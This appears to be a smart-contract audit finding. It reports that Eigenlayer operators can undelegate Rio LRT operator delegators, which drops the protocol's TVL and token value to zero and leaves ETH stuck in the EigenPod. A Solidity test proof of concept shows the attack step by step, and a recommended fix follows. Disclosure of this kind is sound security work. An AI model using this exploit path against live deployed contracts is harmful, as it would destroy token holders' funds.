 high

## Operators can undelegate LRTRioOperatorDelegator instances from Eigenlayer, leading to loss of funds
## Summary
Eigenlayer allows an operator to remove a staker delegation to himself via DelegationManager::undelegate(), this is not taken in consideration by the protocol and will create inconsistencies when tracking balances.

## Vulnerability Detail
An operator can call DelegationManager::undelegate() by passing as input the address of the LRTRioOperatorDelegator that delegated his stake him. The function will:

Instantly reduce the number of Eigenlayer strategies shares owned by the LRTRioOperatorDelegator instance.
Queue a withdrawal of the undelegated funds with the withdrawer parameter set to the LRTRioOperatorDelegator instance.
The reduction of shares will cause an instant drop in value of all the LRTTokens because the Rio protocol is not aware that the funds are queued for withdrawal.

The funds queued for withdrawal are stuck in limbo because to be withdrawn the function DelegationManager::completeQueuedWithdrawal() needs to be called by the LRTRioOperatorDelegator instance, which doesn't have this functionality.

### POC
In RioLRTCoordinator.t.sol import:
```solidity
import {IRioLRTOperatorDelegator} from 'contracts/interfaces/IRioLRTOperatorDelegator.sol';
import {IRioLRTOperatorRegistry} from 'contracts/interfaces/IRioLRTOperatorRegistry.sol'; then copy-paste:
function test_undelegateOnEigenlayer() public {
    uint8 operatorId = addOperatorDelegators(reETH.operatorRegistry, address(reETH.rewardDistributor), 1)[0];
    address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;
    address operatorAddress = address(uint160(1));

    //-> Deposit ETH so there's 64ETH in the deposit pool
    uint256 depositAmount = 2*ETH_DEPOSIT_SIZE - address(reETH.depositPool).balance;
    reETH.coordinator.depositETH{value: depositAmount}();

    //-> Stake the 64ETH on the validators
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Verify validators credentials
    uint40[] memory validatorIndices = verifyCredentialsForValidators(reETH.operatorRegistry, 1, 2);

    //-> Cache current TVL and ETH Balance
    uint256 TVLBefore = reETH.coordinator.getTVL();
    uint256 ETHBalanceBefore = reETH.assetRegistry.getTotalBalanceForAsset(ETH_ADDRESS);

    //-> TVL and ETH balance is both 64ETH (only beacon strategy is present)
    assertEq(ETHBalanceBefore, 64 ether);
    assertEq(TVLBefore, 64 ether);

    //->Operator calls `undelegate()` on Eigenlayer
    IRioLRTOperatorRegistry.OperatorPublicDetails memory details = reETH.operatorRegistry.getOperatorDetails(operatorId);
    vm.prank(operatorAddress);
    delegationManager.undelegate(details.delegator);

    //-> Process withdrawal of ETH from the validators
    verifyAndProcessWithdrawalsForValidatorIndexes(operatorDelegator, validatorIndices);

    //-> Cache current TVL and ETH Balance
    uint256 TVLAfter = reETH.coordinator.getTVL();
    uint256 ETHBalanceAfter = reETH.assetRegistry.getTotalBalanceForAsset(ETH_ADDRESS);
    
    //-> TVL and ETH balance is both 0ETH
    //-> The ~64ETH initially deposited are stuck in limbo and the LRTTokens are worth 0
    uint256 LRTTokensValue = reETH.coordinator.convertToUnitOfAccountFromRestakingTokens(reETH.token.balanceOf(address(this)));
    uint256 eigenPodBalance = address(IRioLRTOperatorDelegator(operatorDelegator).eigenPod()).balance;
    assertEq(TVLAfter, 0);
    assertEq(ETHBalanceAfter, 0);
    assertEq(eigenPodBalance, 64 ether);
    assertEq(LRTTokensValue, 0);
}
```
## Impact
LRTTokens will instantly lose value and funds will be stuck in the Eigenpod.

## Code Snippet
## Tool used
Manual Review

## Recommendation
Add functionality to the LRTRioOperatorDelegator contract to recover forced undelegations funds. When undelegate() is called the protocol assumes it has fewer assets than it does, it's important to not allow users to request withdrawals, deposit or rebalance during this timeframe. It's possible to achieve this by tracking the cumulativeWithdrawalsQueued variable of the Eigenlayer DelegationManager and make sure it's consistent with the expected state when calling deposit(), requestWithdrawal() or reabalance().
